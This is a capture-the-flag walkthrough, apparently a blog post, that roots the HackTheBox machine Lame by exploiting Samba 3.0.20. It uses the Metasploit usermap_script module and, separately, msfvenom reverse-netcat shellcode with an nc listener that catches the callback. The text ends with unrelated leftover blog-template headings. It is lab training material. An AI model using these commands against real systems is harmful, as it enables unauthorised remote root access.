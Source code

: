 # Lame - 10.10.10.3
![](/images/lame/1. lame.png "Lame Info Card")

Contents:

1. TOC
{:toc}

## Scanning and Enumeration

We start with a basic nmap scan to see what ports are open:

    → nmap -A -T4 10.10.10.3

![](/images/lame/2. nmap.png "nmap results")
![](/images/lame/3. nmap_2.png "nmap results")

So we have ftp, ssh, and smb open.  Normally it would be worth exploring ftp to see if we can access any files that may contain ssh creds since ssh is open as well.  From what we can tell so far, this appears to be some sort of Debian-based Linux machine.

In this case though we see a Unix Samba version - Samba 3.0.20, so let's try searching for that.

![](/images/lame/4. google_samba_exploit.png "Google: Samba 3.0.20-debian exploit")

→ So we have a rapid7 (metasploit) result as well as an exploitdb result.  Let's open both:

https://www.rapid7.com/db/modules/exploit/multi/samba/usermap_script

https://www.exploit-db.com/exploits/16320


## Exploitation using Metasploit


https://www.rapid7.com/db/modules/exploit/multi/samba/usermap_script

→ The rapid7 website has the following instructions for using the metasploit module:

![](/images/lame/5. metasploit options.png "rapid7 website")

→ So let's try them.  Load up msfconsole and follow the steps:

   ⇒ use exploit/multi/samba/usermap_script

   ⇒ show options

![](/images/lame/6. msf_1.png "metasploit")

→ set rhosts 10.10.10.3

→ show targets

![](/images/lame/7. msf_2.png "metasploit")


→ So we have set the remote host (rhosts, aka the target), and the only target available is Automatic. Let's try and run it.

   ⇒ run

![](/images/lame/8. msf_3.png "metasploit")

→ Success!  We are root.  Notice though that this shell does not give any indication of the initial connection.  There is no prompt, but after you see the “Command shell session 1 opened...”  you should have a shell and be able to enter commands.

→ Let's go get some flags.

→ cat /home/makis/user.txt

→ cat /root/root.txt

![](/images/lame/9. user_flag.png "user flag")

![](/images/lame/10. root_flag.png "root flag")

→ And there we have our user and root flags.


## Manual Exploitation



https://www.exploit-db.com/exploits/16320

![](/images/lame/11. exploit_db.png "exploit-db entry")

→ In this case, the exploit-db entry is the Metasploit module.  Let's go back to Google and try to find something elsewhere:

![](/images/lame/12. google.png "google for the win")

→ Let's try this one. It contains a python script we should be able to modify to our needs.

![](/images/lame/13. github_exploit.png "exploit on github")

→ Click on the “Raw” and then copy/paste the code into your own python file. I'm calling mine “samba-exploit.py”

→ I'm using gedit, but feel free to use your text editor of choice. In your samba-exploit.py file, check out the following section:

![](/images/lame/14. edit_code.png "initial shellode")

→ Here we need to generate our own shellcode and then use it to replace all the "buf =" and "buf +=" lines.  Let's get to it:

   ⇒ msfvenom -p cmd/unix/reverse_netcat LHOST=10.10.14.24 LPORT=9997 -f python

   ⇒ Make sure you use your own IP address for the LHOST. 

   ⇒ This command may take a few moments to run and generate the shellcode.

![](/images/lame/15. msfvenom.png "msfvenom for shellcode")

→ Now copy/paste the generated shellcode into your samba-exploit.py:

![](/images/lame/16. edit_shellcode.png "editing the shellcode")

→ Notice I also replaced the comment above the shellcode with the actual msfvenom command I used. This is good practice if I ever need to refer back to this code.

→ Next, save the samba-exploit.py file and then chmod +x it to make it executable, then we can try and run it with no options:

   ⇒ chmod +x samba-exploit.py

   ⇒ ./samba-exploit.py

![](/images/lame/17. chmod.png "chmod the script")

→ Looks simple - just add the IP address of the target.  First though we need to set up our listener to catch the callback.  In a separate terminal window, run:

   ⇒ nc -lvnp 9997   

   ⇒ Note: This port must match whatever port number your chose for LPORT= in your shellcode

![](/images/lame/18. nc_listen.png "listener setup")

→ Now in the first terminal window we can run the exploit!

   ⇒ ./samba-exploit.py 10.10.10.3

![](/images/lame/19. samba_exploit.png "execute the exploit")

→ This will appear to hang, that is normal.  Over in your second terminal window with the nc listener you should see:

![](/images/lame/20. nc_connect.png "nc reverse shell connection")

→ Notice in the above I already ran the “whoami” command...and we are root!  Success!

→ Let's go get some flags:

![](/images/lame/21. flags.png "flags")

→ And there you have it, our user and root flags.



## Basic formatting

You can use *italics*, **bold**, `code font text`, and create [links](https://www.markdownguide.org/cheat-sheet/). Here's a footnote [^1]. Here's a horizontal rule:


## Images

![rax logo](/images/rax_intel.jpg)

## Code
